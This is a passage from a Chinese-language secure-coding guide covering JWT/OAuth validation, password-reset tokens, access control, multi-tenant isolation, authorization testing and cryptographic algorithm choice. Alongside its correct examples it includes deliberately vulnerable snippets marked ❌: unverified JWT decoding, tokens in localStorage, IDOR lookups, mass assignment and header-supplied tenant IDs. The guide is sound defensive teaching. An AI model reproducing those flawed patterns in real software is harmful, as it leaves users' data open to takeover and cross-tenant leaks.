瀏覽器端的單頁應用（SPA）保存權杖的位置也很重要。`localStorage` 與 `sessionStorage` 可以被任何在頁面上執行的 JavaScript 讀取，一個 XSS 弱點就能讓攻擊者偷走權杖並在其他地方使用。業界建議（[IETF OAuth 2.0 for Browser-Based Applications](https://datatracker.ietf.org/doc/draft-ietf-oauth-browser-based-apps/)）以 **BFF（Backend for Frontend）** 模式處理：權杖保存在伺服器端，瀏覽器只持有 `HttpOnly` Session Cookie。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-AUTH-011` | 必須 | 驗證 JWT 必須使用成熟的函式庫，並檢查簽章（限定演算法允許清單）、`iss`、`aud`、`exp`、`nbf`；不得自行解析 Base64 後直接信任內容，不得接受 `alg: none` | 🧪 以竄改、過期、錯誤受眾的權杖測試；🤖 Semgrep 自訂規則 `scg-jwt-decode-without-verify`（附錄 B.1） |
| `SCG-AUTH-012` | 應該 | 瀏覽器端應用程式應以 BFF 模式處理 OAuth，權杖保存在伺服器端；不應將 Access Token 或 Refresh Token 存入 `localStorage`、`sessionStorage` 或非 `HttpOnly` 的 Cookie | 🤖 ESLint `no-restricted-syntax`（附錄 B.3，禁止以含 token 的鍵寫入 Web Storage）；👁 程式碼審查 |
| `SCG-AUTH-013` | 必須 | OAuth 2.0／OIDC 用戶端必須使用授權碼流程搭配 PKCE（`S256`），驗證 `state` 與 `nonce`，並在 IdP 註冊完全相符的重新導向 URI；不得使用隱含流程（implicit）或密碼流程（password grant） | 👁 設定審查；🧪 竄改 `state` 的測試 |
| `SCG-AUTH-014` | 必須 | Access Token 的有效期間應為 5–15 分鐘；Refresh Token 必須在每次使用後輪替（rotation）並偵測重複使用；JWT 內容不得放入個人資料或機密，因為它只是 Base64 編碼而非加密 | 👁 IdP 設定審查；🧪 Refresh Token 重複使用的測試 |

```yaml
# ✅ SCG-AUTH-011：Spring Boot 資源伺服器，由 issuer 自動取得 JWKS 並驗證簽章、iss、exp、nbf；另外指定 aud
spring:
  security:
    oauth2:
      resourceserver:
        jwt:
          issuer-uri: https://login.example.com/realms/corp
          audiences:
            - order-api
          jws-algorithms:
            - RS256
            - ES256
```

```typescript
// ✅ SCG-AUTH-011：Node.js 以 jose 驗證 JWT：限定演算法、檢查 iss、aud、exp、typ
import { createRemoteJWKSet, jwtVerify, type JWTPayload } from 'jose';

const JWKS = createRemoteJWKSet(new URL('https://login.example.com/realms/corp/protocol/openid-connect/certs'));

export async function verifyAccessToken(token: string): Promise<JWTPayload> {
  const { payload } = await jwtVerify(token, JWKS, {
    issuer: 'https://login.example.com/realms/corp',
    audience: 'order-api',
    algorithms: ['RS256', 'ES256'],
    typ: 'at+jwt',
    clockTolerance: 30,
  });
  return payload;
}
```

```typescript
// ❌ SCG-AUTH-011：只解碼不驗證。任何人都能自己產生 {"sub":"admin","roles":["ADMIN"]} 的權杖
import { decodeJwt } from 'jose';

export function currentUser(token: string) {
  const claims = decodeJwt(token);           // decodeJwt 不驗證簽章，只能用於除錯顯示
  return { id: claims.sub, roles: claims['roles'] as string[] };
}
```

```typescript
// ❌ SCG-AUTH-012：把 Access Token 存在 localStorage，任何 XSS 都能讀走
localStorage.setItem('access_token', tokenResponse.access_token);
```

```java
// ✅ SCG-AUTH-012、SCG-AUTH-013：BFF 以 Spring Security OAuth2 Client 登入。授權碼＋PKCE，權杖留在伺服器端 Session
package com.example.scg.auth;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.core.annotation.Order;
import org.springframework.security.config.annotation.web.builders.HttpSecurity;
import org.springframework.security.oauth2.client.registration.ClientRegistrationRepository;
import org.springframework.security.oauth2.client.web.DefaultOAuth2AuthorizationRequestResolver;
import org.springframework.security.oauth2.client.web.OAuth2AuthorizationRequestCustomizers;
import org.springframework.security.web.SecurityFilterChain;

@Configuration
public class BffSecurityConfig {

    @Bean
    @Order(5)
    SecurityFilterChain bff(HttpSecurity http, ClientRegistrationRepository clients) throws Exception {
        var resolver = new DefaultOAuth2AuthorizationRequestResolver(clients, "/oauth2/authorization");
        resolver.setAuthorizationRequestCustomizer(OAuth2AuthorizationRequestCustomizers.withPkce());
        http
            .securityMatcher("/bff/**", "/oauth2/**", "/login/oauth2/**")
            .authorizeHttpRequests(auth -> auth.anyRequest().authenticated())
            .oauth2Login(login -> login.authorizationEndpoint(ep -> ep.authorizationRequestResolver(resolver)))
            .csrf(csrf -> csrf.spa());               // 瀏覽器只持有 HttpOnly Session Cookie，因此仍需 CSRF 防護
        return http.build();
    }
}
```

```yaml
# ✅ SCG-AUTH-013：機密用戶端（BFF）的註冊；授權碼流程，redirect-uri 在 IdP 端必須完全相符
spring:
  security:
    oauth2:
      client:
        registration:
          corp:
            client-id: order-bff
            client-secret: ${OIDC_CLIENT_SECRET}
            authorization-grant-type: authorization_code
            redirect-uri: "{baseUrl}/login/oauth2/code/{registrationId}"
            scope: [openid, profile, orders.read]
        provider:
          corp:
            issuer-uri: https://login.example.com/realms/corp
```

```json
{
  "_comment": "✅ SCG-AUTH-014：Keycloak realm 設定片段：Access Token 5 分鐘、Refresh Token 每次使用後輪替且不可重複使用",
  "accessTokenLifespan": 300,
  "ssoSessionIdleTimeout": 1800,
  "ssoSessionMaxLifespan": 36000,
  "revokeRefreshToken": true,
  "refreshTokenMaxReuse": 0
}
```

#### 🔍 3.4 審查與驗證

- **自動檢查：** 以測試產生四種錯誤權杖（簽章被改、過期、`aud` 錯誤、`alg: none`），斷言資源伺服器全部回 401；ESLint `no-restricted-syntax` 禁止以含 `token` 的鍵呼叫 `localStorage.setItem`、`sessionStorage.setItem`（附錄 B.3）；Semgrep `p/jwt` 規則集。
- **人工審查問題：**
  1. 權杖驗證是否限定了演算法？是否同時接受 HMAC 與 RSA（演算法混淆）？
  2. 前端是否以任何方式持有 Access Token？若是，XSS 發生時的影響範圍是什麼？
  3. 重新導向 URI 是否以萬用字元或前綴比對註冊？
- **AI 常見錯誤：** 以 `jwt.decode()`（不驗證）取代 `jwt.verify()`；把 HMAC 密鑰寫死在程式碼中（如 v2.0 的 `HS512` 範例）；SPA 使用隱含流程；Access Token 有效期間設為 24 小時以上。

### 3.5 帳號復原與重設密碼

帳號復原流程常是整個驗證機制最弱的一環：安全問題的答案可以在社群網站查到，可預測的重設連結可以被猜出，沒有到期的連結可以在數月後被使用。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-AUTH-015` | 必須 | 重設密碼權杖必須以安全亂數產生（至少 128 位元）、只儲存其雜湊、只能使用一次、有效期間不超過 30 分鐘；重設成功後必須使該帳號所有既有 Session 與 Refresh Token 失效，並通知使用者 | 🧪 單元與整合測試 |
| `SCG-AUTH-016` | 不應該 | 不應該以安全問題（母親姓名、第一隻寵物）作為帳號復原或驗證的手段 | 👁 程式碼審查 |

```java
// ✅ SCG-AUTH-015：重設密碼權杖：256 位元亂數、Base64URL 編碼給使用者、資料庫只存 SHA-256 雜湊
package com.example.scg.auth;

import java.nio.charset.StandardCharsets;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.time.Duration;
import java.time.Instant;
import java.util.Base64;
import java.util.HexFormat;

public final class ResetTokens {

    public static final Duration TTL = Duration.ofMinutes(30);
    private static final SecureRandom RANDOM = new SecureRandom();

    public record Issued(String tokenForEmail, String hashForDatabase, Instant expiresAt) { }

    private ResetTokens() {
    }

    public static Issued issue(Instant now) {
        byte[] raw = new byte[32];
        RANDOM.nextBytes(raw);
        String token = Base64.getUrlEncoder().withoutPadding().encodeToString(raw);
        return new Issued(token, hash(token), now.plus(TTL));
    }

    /** 驗證時以相同方式雜湊後查詢資料庫；查到後在同一個交易中刪除該筆紀錄（只能使用一次）。 */
    public static String hash(String token) {
        try {
            byte[] d = MessageDigest.getInstance("SHA-256").digest(token.getBytes(StandardCharsets.US_ASCII));
            return HexFormat.of().formatHex(d);
        } catch (NoSuchAlgorithmException e) {
            throw new IllegalStateException(e);
        }
    }
}
```

```sql
-- ✅ SCG-AUTH-015：使用權杖時以單一 DELETE ... RETURNING 取出並作廢，同一權杖不可能被並行使用兩次
CREATE TABLE password_reset_token (
    token_hash char(64)    PRIMARY KEY,
    user_id    bigint      NOT NULL,
    expires_at timestamptz NOT NULL
);
INSERT INTO password_reset_token VALUES (repeat('a', 64), 42, now() + interval '30 minutes');

DELETE FROM password_reset_token
 WHERE token_hash = repeat('a', 64) AND expires_at > now()
RETURNING user_id;                                   -- 第一次回傳 42；第二次回傳 0 筆
```

```text
❌ SCG-AUTH-016：以安全問題作為復原手段
請回答您設定的安全問題：您就讀的國小名稱？ ____________
（答案常可在社群網站或校友名錄查到，且使用者無法「更換」已外洩的答案）

✅ SCG-AUTH-016：以已驗證的 Email 或手機寄送一次性連結，並在高風險帳號要求第二個因子或人工身分核對
```

#### 🔍 3.5 審查與驗證

- **自動檢查：** 整合測試：同一個重設連結使用第二次回 400；重設後以舊 Session 呼叫 API 回 401；Semgrep `scg-insecure-random` 找出以 `UUID.randomUUID()` 以外的非安全亂數產生權杖。（`UUID.randomUUID()` 使用 `SecureRandom`，有 122 位元的隨機性，可以接受；但不得使用 `UUID.nameUUIDFromBytes` 或時間型 UUID。）
- **人工審查問題：**
  1. 重設連結的權杖是否出現在存取日誌中（例如放在 URL 查詢字串而被反向代理記錄）？可考慮在頁面載入後立即以 `POST` 交換。
  2. 「忘記密碼」頁面是否對任何 Email 都顯示相同訊息（「若帳號存在，我們已寄出信件」）？
  3. 重設密碼的信件中，連結的主機名稱是否由 `Host` 標頭決定？（Host header injection，應使用設定檔中的固定網址。）
- **AI 常見錯誤：** 以時間戳或使用者 ID 組成權杖；權杖明文存入資料庫；重設後未使其他 Session 失效；以 `request.getServerName()` 組合重設連結。

## 4. 存取控制

存取控制失效連續兩版名列 OWASP Top 10 第一名（A01:2025），2025 CWE Top 25 中也有四項與它直接相關：缺少授權（CWE-862，第 4 名）、授權錯誤（CWE-863）、不當的存取控制（CWE-284）、透過使用者控制的鍵值繞過授權（CWE-639）。這類弱點**掃描工具幾乎找不到**，因為工具不知道「這筆訂單屬於誰」；它只能靠寫程式時的紀律與授權測試防止。

授權判斷有三個層次，每一層都必須在伺服器端檢查：

| 層次 | 問題 | 常見弱點 | OWASP API Top 10 2023 |
| --- | --- | --- | --- |
| 功能層級 | 這個使用者能不能使用這個功能？ | 一般使用者呼叫 `/api/admin/users` 成功 | API5 功能層級授權失效 |
| 物件層級 | 這個使用者能不能存取**這一筆**資料？ | 把網址的 `/orders/1001` 改成 `/orders/1002` 就看到別人的訂單（IDOR） | API1 物件層級授權失效 |
| 屬性層級 | 這個使用者能不能讀寫**這個欄位**？ | 在更新個人資料的請求中加上 `"role":"ADMIN"` 就變成管理者（大量賦值） | API3 物件屬性層級授權失效 |

### 4.1 物件層級授權

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-ACL-001` | 必須 | 每個以識別碼（路徑參數、查詢參數、請求本文中的 ID）存取資料的操作，都必須檢查目前使用者對該筆資料的權限；不得假設「使用者只會看到自己的 ID」 | 🧪 授權測試（以 A 的身分存取 B 的資料）；👁 程式碼審查 |
| `SCG-ACL-002` | 必須 | 物件層級的授權條件應寫進查詢本身（`WHERE id = :id AND owner_id = :currentUser`），而不是先查出資料再比對；查不到或無權存取時一律回 404，不透露資料是否存在 | 🧪 授權測試；🤖 Semgrep 自訂規則（`findById` 直接回傳） |
| `SCG-ACL-003` | 不應該 | 不應該以「不可預測的 ID」（UUID、雜湊值）取代授權檢查；不可預測的 ID 只能降低被猜中的機率，ID 仍可能從日誌、分享連結、Referer 標頭外洩 | 👁 程式碼審查 |

```java
// ❌ SCG-ACL-001：只依 ID 查詢，任何登入的使用者都能讀取任何人的訂單（IDOR）
@GetMapping("/api/orders/{id}")
public OrderDto get(@PathVariable long id) {
    return orderRepository.findById(id).map(OrderDto::from).orElseThrow(NotFoundException::new);
}
```

（片段：IDOR 的反例。）

```java
// ✅ SCG-ACL-001、SCG-ACL-002：擁有者條件寫進查詢；目前使用者取自已驗證的身分，不取自請求參數
package com.example.scg.acl;

import java.math.BigDecimal;
import java.util.Optional;
import org.springframework.jdbc.core.simple.JdbcClient;
import org.springframework.stereotype.Repository;

@Repository
public class OrderQueryRepository {

    public record OrderView(long id, String status, BigDecimal amount) { }

    private final JdbcClient jdbc;

    public OrderQueryRepository(JdbcClient jdbc) {
        this.jdbc = jdbc;
    }

    public Optional<OrderView> findForCustomer(long orderId, String customerId) {
        return jdbc.sql("""
                SELECT id, status, amount
                  FROM customer_order
                 WHERE id = :id
                   AND customer_id = :customerId
                """)
                .param("id", orderId)
                .param("customerId", customerId)
                .query(OrderView.class)
                .optional();
    }
}
```

```java
// ✅ SCG-ACL-002：Controller 從 Authentication 取得目前使用者；查不到與無權存取都回 404
package com.example.scg.acl;

import org.springframework.http.HttpStatus;
import org.springframework.security.core.annotation.AuthenticationPrincipal;
import org.springframework.security.oauth2.jwt.Jwt;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PathVariable;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.server.ResponseStatusException;

@RestController
public class OrderController {

    private final OrderQueryRepository orders;

    public OrderController(OrderQueryRepository orders) {
        this.orders = orders;
    }

    @GetMapping("/api/orders/{id}")
    public OrderQueryRepository.OrderView get(@PathVariable long id, @AuthenticationPrincipal Jwt jwt) {
        return orders.findForCustomer(id, jwt.getSubject())
                .orElseThrow(() -> new ResponseStatusException(HttpStatus.NOT_FOUND));
    }
}
```

```java
// ❌ SCG-ACL-003：「ID 是 UUID，別人猜不到」不是授權。分享連結、瀏覽器歷史、日誌都可能洩漏 UUID
@GetMapping("/api/invoices/{uuid}")
public InvoiceDto get(@PathVariable UUID uuid) {
    return invoiceRepository.findByUuid(uuid).map(InvoiceDto::from).orElseThrow(NotFoundException::new);
}
```

（片段：以不可預測 ID 取代授權的反例。若真的需要「持有連結即可檢視」的分享功能，應使用有到期日、可撤銷、範圍限定的分享權杖，並記錄存取。）

#### 🔍 4.1 審查與驗證

- **自動檢查：** 附錄 B.1 的 Semgrep 規則 `scg-findbyid-in-controller` 找出 `@RestController` 類別中直接呼叫 `findById` 的程式碼（資訊等級，提醒人工確認是否有物件層級授權）；4.4 的授權測試以兩個使用者交叉存取。
- **人工審查問題：**
  1. 每個帶有 ID 參數的端點，查詢條件是否包含擁有者、租戶或權限範圍？
  2. 批次端點（一次傳入多個 ID）是否對**每一個** ID 都檢查？
  3. 子資源（`/orders/{orderId}/items/{itemId}`）是否同時檢查 `itemId` 屬於 `orderId`、`orderId` 屬於目前使用者？
- **AI 常見錯誤：** 直接 `repository.findById(id)`；從請求參數讀取 `userId` 作為擁有者條件；先查出資料再以 `if (!order.getOwner().equals(user))` 比對，卻在比對前就把資料寫入日誌或快取。

### 4.2 功能層級與屬性層級授權

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-ACL-004` | 必須 | 每個端點與服務方法都必須在伺服器端檢查功能權限（以 `requestMatchers` 或 `@PreAuthorize` 等宣告式機制）；隱藏前端按鈕或選單不是授權 | 🧪 以低權限角色呼叫的授權測試；🤖 Semgrep 自訂規則 |
| `SCG-ACL-005` | 必須 | 不得將請求本文直接繫結到資料庫實體（Entity）或領域物件；必須使用只包含「這個操作允許修改的欄位」的 DTO，並在回應中只輸出呼叫者有權看到的欄位 | 🤖 Semgrep 自訂規則（`@RequestBody` 參數為 `@Entity`）；🧪 送出額外欄位的測試 |
| `SCG-ACL-006` | 應該 | 權限判斷應集中在授權元件（Spring Security 的 `AuthorizationManager`、`@PreAuthorize` 引用的 Bean、政策引擎），而不是在各處以字串比對角色名稱 | 👁 程式碼審查 |

```java
// ✅ SCG-ACL-004、SCG-ACL-006：以方法層級授權保護服務；權限判斷集中在 OrderPermissions Bean
package com.example.scg.acl;

import org.springframework.context.annotation.Configuration;
import org.springframework.security.access.prepost.PreAuthorize;
import org.springframework.security.config.annotation.method.configuration.EnableMethodSecurity;
import org.springframework.stereotype.Service;

@Configuration
@EnableMethodSecurity
class MethodSecurityConfig {
}

@Service
class RefundService {

    @PreAuthorize("hasAuthority('SCOPE_orders.refund') and @orderPermissions.canRefund(authentication, #orderId)")
    public void refund(long orderId, java.math.BigDecimal amount) {
        // 只有具備 orders.refund 權限、且依 OrderPermissions 判斷可退款的使用者才能進入
    }
}
```

```java
// ✅ SCG-ACL-006：授權政策集中在一個 Bean，方便測試與稽核
package com.example.scg.acl;

import org.springframework.security.core.Authentication;
import org.springframework.stereotype.Component;

@Component("orderPermissions")
public class OrderPermissions {

    public interface OrderLookup {
        boolean belongsToBranch(long orderId, String branchCode);
    }

    private final OrderLookup lookup;

    public OrderPermissions(OrderLookup lookup) {
        this.lookup = lookup;
    }

    /** 客服人員只能對自己分行的訂單退款。 */
    public boolean canRefund(Authentication auth, long orderId) {
        if (auth == null || !auth.isAuthenticated()) {
            return false;
        }
        String branch = auth.getAuthorities().stream()
                .map(a -> a.getAuthority())
                .filter(a -> a.startsWith("BRANCH_"))
                .map(a -> a.substring("BRANCH_".length()))
                .findFirst()
                .orElse(null);
        return branch != null && lookup.belongsToBranch(orderId, branch);
    }
}
```

```java
// ❌ SCG-ACL-005：請求本文直接繫結到 Entity。使用者在 JSON 中加上 "role":"ADMIN"、"balance":999999 就會被寫入
@PutMapping("/api/me")
public UserEntity update(@RequestBody UserEntity body, @AuthenticationPrincipal Jwt jwt) {
    body.setId(currentUserId(jwt));
    return userRepository.save(body);
}
```

（片段：大量賦值的反例。）

```java
// ✅ SCG-ACL-005：請求 DTO 只有允許修改的欄位；回應 DTO 只有允許輸出的欄位
package com.example.scg.acl;

import jakarta.validation.constraints.Email;
import jakarta.validation.constraints.NotBlank;
import jakarta.validation.constraints.Size;

public final class ProfileDtos {

    private ProfileDtos() {
    }

    /** 使用者只能修改顯示名稱與聯絡 Email；角色、狀態、點數不在此 DTO 中。 */
    public record UpdateProfileRequest(
            @NotBlank @Size(max = 50) String displayName,
            @NotBlank @Email @Size(max = 254) String contactEmail) {
    }

    /** 回應不包含密碼雜湊、內部備註、風險分數。 */
    public record ProfileResponse(String displayName, String contactEmail, String memberLevel) {
    }
}
```

#### 🔍 4.2 審查與驗證

- **自動檢查：** 附錄 B.1 的 Semgrep 規則 `scg-entity-as-requestbody` 找出 `@RequestBody` 參數型別名稱以 `Entity` 結尾的方法（Semgrep 社群版無法跨檔案判斷類別是否標註 `@Entity`，因此以命名慣例近似；實體類別未依此命名時需人工確認）；Jackson 設定 `FAIL_ON_UNKNOWN_PROPERTIES`（Spring Boot 預設關閉）可在測試環境開啟，讓多送的欄位直接失敗，方便發現前後端不一致。
- **人工審查問題：**
  1. 新增的端點是否有權限設定？若只靠 `authenticated()`，是否代表「所有登入的使用者都能用」是正確的？
  2. 回應 DTO 是否包含呼叫者不該看到的欄位（其他使用者的 Email、內部狀態、成本價）？
  3. 「前端不會顯示這個按鈕」是否被當成權限控制？
- **AI 常見錯誤：** 直接以 Entity 作為 `@RequestBody` 與回傳型別；在 Controller 內以 `if (user.getRole().equals("ADMIN"))` 判斷；只在前端以 `v-if="isAdmin"` 隱藏功能。

### 4.3 多租戶隔離

多租戶系統（同一套程式服務多個客戶）的授權錯誤會造成**跨客戶**的資料外洩，影響遠大於單一使用者的 IDOR。租戶識別必須來自已驗證的身分，並由資料層強制套用，讓開發者「忘了加條件」時也不會外洩。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-ACL-007` | 必須 | 租戶識別碼必須取自已驗證的身分（權杖中的宣告或 Session），不得取自請求參數、標頭或子網域以外未經驗證的來源；資料層必須自動套用租戶條件（Hibernate `@TenantId`、資料庫資料列層級安全 RLS 等），而不是依賴每個查詢手動加上 | 🧪 跨租戶存取測試；🤖 資料庫 RLS 政策檢查 |

```sql
-- ✅ SCG-ACL-007：PostgreSQL 資料列層級安全。應用程式在每個交易開始時設定 app.tenant_id，
--    即使開發者忘了在查詢加上 tenant_id 條件，也只看得到自己租戶的資料
CREATE SCHEMA billing;
CREATE TABLE billing.invoice (
    id        bigint GENERATED ALWAYS AS IDENTITY PRIMARY KEY,
    tenant_id varchar(20)   NOT NULL,
    amount    numeric(12,2) NOT NULL
);
ALTER TABLE billing.invoice ENABLE ROW LEVEL SECURITY;
ALTER TABLE billing.invoice FORCE ROW LEVEL SECURITY;
CREATE POLICY tenant_isolation ON billing.invoice
    USING (tenant_id = current_setting('app.tenant_id', true))
    WITH CHECK (tenant_id = current_setting('app.tenant_id', true));

INSERT INTO billing.invoice (tenant_id, amount) VALUES ('T001', 100), ('T002', 200);   -- 以超級使用者匯入測試資料（超級使用者不受 RLS 限制）

CREATE ROLE invoice_app LOGIN PASSWORD 'change-me';
GRANT USAGE ON SCHEMA billing TO invoice_app;
GRANT SELECT, INSERT ON billing.invoice TO invoice_app;

SET ROLE invoice_app;
BEGIN;
SET LOCAL app.tenant_id = 'T001';
SELECT tenant_id, amount FROM billing.invoice;      -- 只回傳 T001 的資料
-- 預期結果：T001|100.00
INSERT INTO billing.invoice (tenant_id, amount) VALUES ('T002', 1);
-- 預期錯誤：new row violates row-level security policy
ROLLBACK;
RESET ROLE;
```

```java
// ✅ SCG-ACL-007：Hibernate 的 @TenantId，租戶由 CurrentTenantIdentifierResolver 從已驗證的身分取得
package com.example.scg.acl;

import jakarta.persistence.Entity;
import jakarta.persistence.GeneratedValue;
import jakarta.persistence.Id;
import java.math.BigDecimal;
import org.hibernate.annotations.TenantId;

@Entity
public class Invoice {

    @Id
    @GeneratedValue
    private Long id;

    @TenantId                       // Hibernate 自動在查詢加上 tenant_id 條件、在新增時填入
    private String tenantId;

    private BigDecimal amount;

    protected Invoice() {
    }

    public Invoice(BigDecimal amount) {
        this.amount = amount;
    }

    public Long getId() {
        return id;
    }

    public BigDecimal getAmount() {
        return amount;
    }
}
```

```java
// ✅ SCG-ACL-007：租戶來自 JWT 的 tenant 宣告，而不是 X-Tenant-Id 標頭
package com.example.scg.acl;

import org.hibernate.context.spi.CurrentTenantIdentifierResolver;
import org.springframework.security.core.Authentication;
import org.springframework.security.core.context.SecurityContextHolder;
import org.springframework.security.oauth2.server.resource.authentication.JwtAuthenticationToken;
import org.springframework.stereotype.Component;

@Component
public class JwtTenantResolver implements CurrentTenantIdentifierResolver<String> {

    /** 系統啟動、排程等沒有使用者的情境使用的租戶；此租戶不得有任何業務資料。 */
    private static final String NO_TENANT = "__none__";

    @Override
    public String resolveCurrentTenantIdentifier() {
        Authentication auth = SecurityContextHolder.getContext().getAuthentication();
        if (auth instanceof JwtAuthenticationToken jwt) {
            String tenant = jwt.getToken().getClaimAsString("tenant");
            if (tenant != null && !tenant.isBlank()) {
                return tenant;
            }
        }
        return NO_TENANT;
    }

    @Override
    public boolean validateExistingCurrentSessions() {
        return true;
    }
}
```

```java
// ❌ SCG-ACL-007：租戶由用戶端可控制的標頭決定，改一個標頭就能讀取其他客戶的資料
String tenant = request.getHeader("X-Tenant-Id");
List<Invoice> invoices = jdbc.sql("SELECT * FROM invoice WHERE tenant_id = :t").param("t", tenant).query(Invoice.class).list();
```

（片段：以請求標頭決定租戶的反例。）

#### 🔍 4.3 審查與驗證

- **自動檢查：** 查詢 `pg_tables` 的 `rowsecurity` 欄位，確認多租戶表格都啟用 RLS；整合測試以租戶 A 的權杖查詢租戶 B 的資料 ID，斷言回 404。
- **人工審查問題：**
  1. 有沒有任何程式碼讀取 `X-Tenant-Id` 之類的標頭作為授權依據？
  2. 背景工作（排程、訊息消費者）沒有使用者身分時，租戶如何決定？是否可能以「全部租戶」執行？
  3. 快取的鍵值是否包含租戶識別碼？（否則 A 租戶的快取結果會回給 B 租戶。）
- **AI 常見錯誤：** 以請求標頭或查詢參數傳遞租戶；快取鍵只有業務 ID；管理者帳號使用擁有者角色（PostgreSQL 的表格擁有者預設不受 RLS 限制，需要 `FORCE ROW LEVEL SECURITY`）。

### 4.4 授權測試

授權弱點無法由掃描工具找到，**授權測試是唯一可靠的驗證方式**。每個受保護的端點都應至少有下列三種測試：

| 情境 | 期望結果 |
| --- | --- |
| 未登入 | 401 |
| 已登入但缺少功能權限 | 403 |
| 已登入、有功能權限，但存取別人的資料 | 404（或 403，依專案約定一致即可） |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-ACL-008` | 必須 | 每個受保護的端點都必須有授權測試，至少涵蓋「未登入」、「缺少權限」與「存取他人資料」三種情境；新增端點時，授權測試與功能測試必須在同一個 Pull Request 中提交 | 🧪 MockMvc／WebTestClient 授權測試；👁 程式碼審查 |

```java
// ✅ SCG-ACL-008：以 MockMvc 驗證三種授權情境
package com.example.scg.acl;

import static org.mockito.ArgumentMatchers.anyLong;
import static org.mockito.ArgumentMatchers.eq;
import static org.mockito.BDDMockito.given;
import static org.springframework.security.test.web.servlet.request.SecurityMockMvcRequestPostProcessors.jwt;
import static org.springframework.test.web.servlet.request.MockMvcRequestBuilders.get;
import static org.springframework.test.web.servlet.result.MockMvcResultMatchers.status;

import java.math.BigDecimal;
import java.util.Optional;
import org.junit.jupiter.api.Test;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.boot.webmvc.test.autoconfigure.WebMvcTest;
import org.springframework.context.annotation.Import;
import org.springframework.test.context.bean.override.mockito.MockitoBean;
import org.springframework.test.web.servlet.MockMvc;

@WebMvcTest(OrderController.class)
@Import(com.example.scg.gen.DefaultDenySecurityConfig.class)
class OrderControllerAuthorizationTest {

    @Autowired
    MockMvc mvc;

    @MockitoBean
    OrderQueryRepository orders;

    @MockitoBean
    org.springframework.security.oauth2.jwt.JwtDecoder jwtDecoder;

    @Test
    void anonymousGets401() throws Exception {
        mvc.perform(get("/api/orders/1")).andExpect(status().isUnauthorized());
    }

    @Test
    void ownerCanReadOwnOrder() throws Exception {
        given(orders.findForCustomer(1L, "alice"))
                .willReturn(Optional.of(new OrderQueryRepository.OrderView(1L, "PAID", BigDecimal.TEN)));
        mvc.perform(get("/api/orders/1").with(jwt().jwt(j -> j.subject("alice"))))
                .andExpect(status().isOk());
    }

    @Test
    void otherCustomersOrderLooksLikeNotFound() throws Exception {
        given(orders.findForCustomer(anyLong(), eq("bob"))).willReturn(Optional.empty());
        mvc.perform(get("/api/orders/1").with(jwt().jwt(j -> j.subject("bob"))))
                .andExpect(status().isNotFound());
    }

    @Test
    void unlistedPathIsDeniedByDefault() throws Exception {
        mvc.perform(get("/actuator/env").with(jwt().jwt(j -> j.subject("alice"))))
                .andExpect(status().isForbidden());
    }
}
```

> **Spring Boot 4 的陷阱：** Boot 4 把測試支援拆成模組，`@WebMvcTest` 只有在測試相依中加入 `spring-boot-starter-security-test` 時才會載入 Spring Security 的自動設定。若只加入 `spring-security-test`，本例會因找不到 `HttpSecurity` 而無法啟動；若改以 `addFilters = false` 「解決」，授權測試就全部失去意義。

```xml
<!-- ✅ SCG-ACL-008：Boot 4 的授權測試相依 -->
<dependency>
  <groupId>org.springframework.boot</groupId>
  <artifactId>spring-boot-starter-security-test</artifactId>
  <scope>test</scope>
</dependency>
```

#### 🔍 4.4 審查與驗證

- **自動檢查：** CI 執行授權測試；可用 ArchUnit 或簡單的腳本比對「所有 `@RequestMapping` 端點」與「授權測試中出現的路徑」，找出沒有授權測試的端點。
- **人工審查問題：**
  1. 授權測試是否真的使用**兩個不同的使用者**？只用一個使用者測不出 IDOR。
  2. 測試中的權限設定是否與正式環境一致（例如測試設定檔是否把 `permitAll()` 打開）？
  3. 「存取他人資料」的期望結果是 404 還是 403？整個系統是否一致？
- **AI 常見錯誤：** 只產生「成功」的測試；以 `@WithMockUser(roles = "ADMIN")` 測試所有端點，從未測試低權限使用者；在測試設定中停用安全機制（`@AutoConfigureMockMvc(addFilters = false)`），讓授權測試形同虛設。

## 5. 密碼學與秘密管理

密碼學失效（A04:2025）很少是因為演算法被破解，幾乎都是**用錯**：選了過時的演算法、重複使用 IV、把金鑰寫在程式碼裡、為了解決憑證錯誤而關閉驗證。本章的原則是「選擇少數經過驗證的組合，並且不自己發明」。

### 5.1 演算法與模式的選擇

| 用途 | 建議 | 可接受 | 禁止 |
| --- | --- | --- | --- |
| 對稱加密 | AES-256-GCM、ChaCha20-Poly1305 | AES-128-GCM | DES、3DES、RC4、Blowfish、任何 ECB 模式、沒有完整性保護的 CBC |
| 雜湊（完整性、指紋） | SHA-256、SHA-384、SHA-3 | SHA-512/256 | MD5、SHA-1 |
| 訊息驗證碼 | HMAC-SHA256 | HMAC-SHA384 | 自行以 `hash(key + message)` 組合 |
| 數位簽章 | Ed25519、ECDSA P-256 | RSA-PSS 3072 位元以上 | RSA 2048 以下（新系統）、DSA |
| 金鑰交換 | X25519、ECDH P-256；評估 ML-KEM 混合模式 | RSA-OAEP 3072 位元以上 | RSA PKCS#1 v1.5 加密 |
| 密碼雜湊 | 見 3.1（Argon2id、bcrypt） | PBKDF2-HMAC-SHA256（600,000 次以上） | 任何一般雜湊 |
| 後量子 | ML-KEM（FIPS 203）、ML-DSA（FIPS 204） | — | — |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-CRY-001` | 必須 | 只能使用 5.1 表格中「建議」或「可接受」的演算法與模式；`Cipher.getInstance` 等 API 必須明確指定模式與填充（例如 `AES/GCM/NoPadding`），不得只寫 `"AES"`（Java 預設為 ECB） | 🤖 FindSecBugs `CIPHER_INTEGRITY`、`ECB_MODE`、`DES_USAGE`；🤖 Semgrep |
